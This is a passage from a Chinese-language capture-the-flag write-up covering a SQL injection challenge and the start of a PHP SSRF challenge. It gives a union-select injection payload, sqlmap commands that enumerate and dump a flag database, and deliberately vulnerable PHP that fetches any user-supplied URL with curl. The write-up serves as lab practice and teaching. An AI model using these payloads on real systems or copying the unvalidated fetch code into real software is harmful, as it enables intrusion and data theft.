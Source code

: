 查数据：没有查出flag

```
uname=-1' union select group_concat(chinese),2,3,4 from jeffjokes#&pwd=1
```

这儿我开始特别懵，疯狂检查我语句，试了每一表的每一个列，但是都不对。

```
有一句话，猜测是提示：

编译器从来不给Jeff编译警告，而是Jeff警告编译器,所有指针都是指向Jeff的,gcc的-O4优化选项是将你的代码邮件给Jeff重写一下,当Jeff触发程序的程序性能采样时，循环会因害怕而自动展开。,Jeff依然孤独地等待着数学家们解开他在PI的数字中隐藏的笑话

这是谷歌大神jeff bean的事迹
```

最后发现找错库了

用sqlmap爆了一下

ps: 属于[sqlmap的post注入](https://blog.csdn.net/lwpoor123/article/details/85236496)

```
查库：
python3 sqlmap.py -r "D:\Desktop\5.txt" -p uname --dbs
```

```sql
python3 sqlmap.py -r 1.txt -p uname -D flag -T fllag -C  "fllllllag" --dump
```

### babyphp

robots.txt，得到`noobcurl.php`

```php
 <?php
function ssrf_me($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        curl_close($ch);
        echo $output;
}

if(isset($_GET['url'])){
    ssrf_me($_GET['url']);
}
else{
    highlight_file(__FILE__);
        echo "<!-- 有没有一种可能，flag在根目录 -->";
}

```

考察ssrf，[可以看看我的文章](https://blog.csdn.net/unexpectedthing/article/details/120837061)
